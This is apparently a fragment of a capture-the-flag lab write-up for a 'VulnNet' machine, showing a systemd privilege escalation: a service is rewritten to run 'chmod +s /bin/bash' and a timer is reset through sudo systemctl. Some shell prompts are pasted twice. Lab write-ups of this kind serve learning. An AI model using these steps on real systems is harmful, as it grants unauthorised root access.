 ```bash
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/sudo
```

```bash
serv-manage@vulnnet-node:~$ nano /etc/systemd/system/vulnnet-job.service
```

```bash
echo '[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/bash -c "chmod +s /bin/bash"

[Install]
WantedBy=multi-user.target' > vulnnet-job.service
```

![image](https://github.com/user-attachments/assets/234178d0-b74b-45e2-a66f-76cf2071beaa)


```bash
serv-manage@vulnnet-node:~$ nano /etc/systemd/system/vulnnet-auto.timer
```

```bash
serv-manage@vulnnet-node:~$ cat /etc/systemd/system/vulnnet-auto.timer
echo '[Unit]
Description=Run VulnNet utilities every 30 min
[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/1
Unit=vulnnet-job.service
[Install]
WantedBy=basic.target' > vulnnet-auto.timer
```

<br>

![image](https://github.com/user-attachments/assets/c7080782-0564-4907-883d-6213957cacc8)

```bash
serv-manage@vulnnet-node:~$ sudo /bin/systemctl stop vulnnet-auto.timer
serv-manage@vulnnet-node:~$ serv-manage@vulnnet-node:/tmp/tmp.DHRcCalyiZ$  sudo /bin/systemctl daemon-reload
serv-manage@vulnnet-node:~$ serv-manage@vulnnet-node:/tmp/tmp.DHRcCalyiZ$   sudo /bin/systemctl start vulnnet-auto.timer
```
